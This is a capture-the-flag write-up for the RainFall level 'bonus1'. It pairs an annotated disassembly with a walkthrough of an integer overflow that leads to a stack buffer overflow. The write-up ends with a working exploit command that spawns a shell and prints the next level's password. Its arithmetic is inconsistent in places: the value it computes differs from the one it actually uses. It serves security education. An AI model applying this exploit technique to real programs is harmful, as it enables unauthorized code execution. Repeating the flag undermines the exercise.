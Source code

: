 # bonus1

1. [Analysis](#analysis)
2. [Exploit](#exploit)

## Analysis

```gdb
gdb-peda$ disas main
Dump of assembler code for function main:
   0x08048424 <+0>:     push   ebp
   0x08048425 <+1>:     mov    ebp,esp
   0x08048427 <+3>:     and    esp,0xfffffff0
   0x0804842a <+6>:     sub    esp,0x40
   0x0804842d <+9>:     mov    eax,DWORD PTR [ebp+0xc]              ; ⎤                                                 
   0x08048430 <+12>:    add    eax,0x4                              ; ⎦ add 4 to argv: get argv[1]                      
   0x08048433 <+15>:    mov    eax,DWORD PTR [eax]                  ; dereference argv[1]: get the string directly      
   0x08048435 <+17>:    mov    DWORD PTR [esp],eax                  ; prepare call to atoi with argv[1]                 
   0x08048438 <+20>:    call   0x8048360 <atoi@plt>                 ; call atoi(argv[1])                                
   0x0804843d <+25>:    mov    DWORD PTR [esp+0x3c],eax             ; move atoi result to esp+0x3c                      
   0x08048441 <+29>:    cmp    DWORD PTR [esp+0x3c],0x9             ; compare argv[1] to 9                              
   0x08048446 <+34>:    jle    0x804844f <main+43>                  ; if argv[1] <= 9: jump to <main+43>              ⎤ 
   0x08048448 <+36>:    mov    eax,0x1                              ; return(1)                                       ⎥ 
   0x0804844d <+41>:    jmp    0x80484a3 <main+127>                 ; jump to the end <main+127>                      ⎥ 
   0x0804844f <+43>:    mov    eax,DWORD PTR [esp+0x3c]             ; get argv[1] argument (stored at <main+25>)      ⎦ 
   0x08048453 <+47>:    lea    ecx,[eax*4+0x0]                      ; ecx is initialize                                 
   0x0804845a <+54>:    mov    eax,DWORD PTR [ebp+0xc]              ; ⎤                                                
   0x0804845d <+57>:    add    eax,0x8                              ; ⎦ get argv[2]                                     
   0x08048460 <+60>:    mov    eax,DWORD PTR [eax]                  ; ⎤                                                 
   0x08048462 <+62>:    mov    edx,eax                              ; ⎥                                                 
   0x08048464 <+64>:    lea    eax,[esp+0x14]                       ; ⎥                                                 
   0x08048468 <+68>:    mov    DWORD PTR [esp+0x8],ecx              ; ⎥                                                 
   0x0804846c <+72>:    mov    DWORD PTR [esp+0x4],edx              ; ⎥                                                 
   0x08048470 <+76>:    mov    DWORD PTR [esp],eax                  ; ⎥                                                 
   0x08048473 <+79>:    call   0x8048320 <memcpy@plt>               ; ⎦ call memcpy(buf, argv[2], ecx)                  
   0x08048478 <+84>:    cmp    DWORD PTR [esp+0x3c],0x574f4c46      ; compare argv[1] address to 0x574f4c46             
   0x08048480 <+92>:    jne    0x804849e <main+122>                 ; if not equal: jump to <main+122>                ⎤ 
   0x08048482 <+94>:    mov    DWORD PTR [esp+0x8],0x0              ;                                                 ⎥ 
   0x0804848a <+102>:   mov    DWORD PTR [esp+0x4],0x8048580        ;                                                 ⎥ 
   0x08048492 <+110>:   mov    DWORD PTR [esp],0x8048583            ;                                                 ⎥ 
   0x08048499 <+117>:   call   0x8048350 <execl@plt>                ; execl("bin/sh")                                 ⎥ 
   0x0804849e <+122>:   mov    eax,0x0                              ; return(0)                                       ⎦ 
   0x080484a3 <+127>:   leave
   0x080484a4 <+128>:   ret
End of assembler dump.
```

## Exploit

`bonus1` take _two_ arguments:

- The first is an _signed_ `int` because of `atoi`.
- The second is a string which is copied by `memcpy` to a buffer on the stack.

We are going to exploit the fact that `memcpy` use `size_t` (an unsigned integer) and the first argument is a signed
integer: it is an _integer overflow_.

We need to find a `int` that is less than 9 (`<main+34>`). Then, this `int` is used for `memcpy` size but it is
multiplied by 4 before it uses it. Finally the same `int` returned by `atoi` is compared to `0x574f4c46`, which is a big
positive value... It seems to be difficult to find a value that is less than 9 and equal to 1464814662 (`0x574f4c46`).

That is without counting on integer overflow. This integer overflow will lead us to a buffer overflow by `memcpy`
because the `int` value returned by `atoi` is stored next to the buffer. So we are going to crush its value.

In `Resources`, we have a small C program to visualize an number as signed, unsigned and hexadecimal values.

Let's find how big is the buffer for `memcpy`:

```gdb
   0x0804843d <+25>:    mov    DWORD PTR [esp+0x3c],eax
```

Here, `atoi` return is stored at `esp+0x3c`.

```gdb
   0x08048464 <+64>:    lea    eax,[esp+0x14]
```

Before `memcpy` call, we notice that the buffer begins at `esp+0x3c`. Thus the total size of the buffer seems to be
`0x3c - 0x14` that is to say `40`. Consequently, the `int` value we are targetting is at 41th, 42th, 43th and 44th
bytes. So we know that the second argument is going to be something like `python -c 'print "A" * 40 +
"\x46\x4c\x4f\x57"`.

Let's find the integer trick for the first argument. We take the minimal signed integer and add 11 (because the buffer
is 4 times 11). Let's simulate how it is going to work inside the function:

```python
>>> -2**31 + 11         ; Take the INT_MIN and add (buffer_size / 4)                                                    
-2147483637                                                                                                             
>>> hex(2147483659 * 4) ; This value in hexadecimal is multiplied by 4                                                  
'0x20000002c'           ; It gives us 0x20000002c which corresponds to 0x0000002c in unsigned int                       
>>> 0x2c                                                                                                                
44                      ; Which is equal to 44                                                                          
```

Thus the `size_t` value in `memcpy` is going to be `0x2c` (`44`). It overrides previous the first argument on the stack
by `0x574f4c46`. Win!

```
bonus1@RainFall:~$ ./bonus1 -1073741813 $(python -c 'print "A" * 40 + "\x46\x4c\x4f\x57"')
$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```
